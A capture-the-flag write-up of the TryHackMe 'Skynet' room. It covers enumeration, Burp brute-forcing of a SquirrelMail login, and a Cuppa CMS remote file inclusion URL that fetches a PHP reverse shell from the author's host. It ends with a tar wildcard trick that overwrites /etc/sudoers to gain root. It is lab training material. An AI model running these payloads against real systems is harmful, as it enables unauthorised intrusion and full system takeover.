









# Skynet

https://tryhackme.com/room/skynet

### RECONNAISSANCE

I performed a nmap scan on the target to identify open ports and services running on the target

`nmap -sC -Pn -v <target> -oA result`

`-sC` : Default script

`-Pn` : Ping probes

`-v` : verbose mode

`-oA`  : output to a file



---

### FOOTHOLD

Checked out the webpage it’s a static webpage 


Next, for directory enum did a gobuster scan


Found a interesting `/squirrelmail`  directory when navigated to it found a login :



Had no creds tried the default but didn’t work, so started smb enum as `445` was open.

First:  `smbclient -L <target>`

Found some interesting shares : anonymous, milesdyson



Since miles dyson required creds to login

Tried to connect to anonymous found some files, extracted them to my local machine.


The attention.txt file reads that there has been a recent system malfunction that caused various passwords to be changed. It requests all the employees to change their passwords. The log files log2 and log3 were empty and log1 contains a list of possible passwords related to the Terminator Movie Franchise.

So, now had a password list and a username : `milesdyson` so opened burp captured the login requst for `squirrelmail` and did a normal brute-force dictionary by using burp intruder.

So every other password response was a gave a `200` incorrect username/password but a single password got a `/302` redirection response meaning this was the password for user miles dyson. 

This was the dashboard of **squirrelmail for user miles dyson :**



After looking for mails inside the Inbox and Sent Box, we were able to procure the following mail. It says that the password for the milesdyson user has been changed after the malfunction. It gives us the updated password.

so got a updated smb password for miles dyson in a mail

 


with the help of this logged in to smb with command : `smbclient //<target>/milesdyson/ -U milesdyson`



rest all the files were movie references and `.pdf` but notes seemes interesting when `cd` into notes there were many files almost all of them were `.md` files except for one `important.txt` which then i got into my local machine.


it had a hidden directory mentioned `/45kra24zxs28v3yd`  when traversed to it had a webpage which had a Miles Dyson Character’s picture and a brief introduction. He is the inventor/creator of Skynet. The AI that takes over mankind in Terminator Movie Franchise.


Since didn’t find anything interesting in the directory next logical solution was to do a gobuster scan for this directory.

  



Found a  `/administrator` , Upon opening the `administrator` directory in the web browser, it was an instance of Cuppa CMS and opened to a login panel.

Looked for Cuppa CMS default creds didn’t work but while looking for those came upon a remote file inclusion exploit which seemed interesting 

https://www.exploit-db.com/exploits/25971

so basically had to inject commands in the URL itself so first for checking got the payload and looked for `/etc/passwd`



Boom!! it worked so to get a rev shell got a `php_reverse_shell.php` script from `pentestmonkey` hosted a python web server and used this payload while listening with netcat in my local machine.

`http://10.48.159.119/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://192.168.177.72:8000/php-reverse-shell.php`



Got a shell successfully.

---

### USER FLAG

Went to `/home` directory there was a milesdyson user and inside was the user flag.


and also there was a interesting directory in the `milesdyson` ’s home directory

---

### Privilege Escalation

In the milesdyson’s home directory was a backup folder in which was a [`backup.sh`](http://backup.sh) file which was ran by `root` user what is was doing was compressing and backing up everything in the `/var/www/html` directory 




so looked for privilege escalation for a condition like these and found `wildcard privilege escalation`.

https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

```
cd /var/www/html
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > shell.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh shell.sh"
echo "/var/www/html"  > --checkpoint=1
sudo -l
sudo bash
cat /root/root.txt
```


DONE.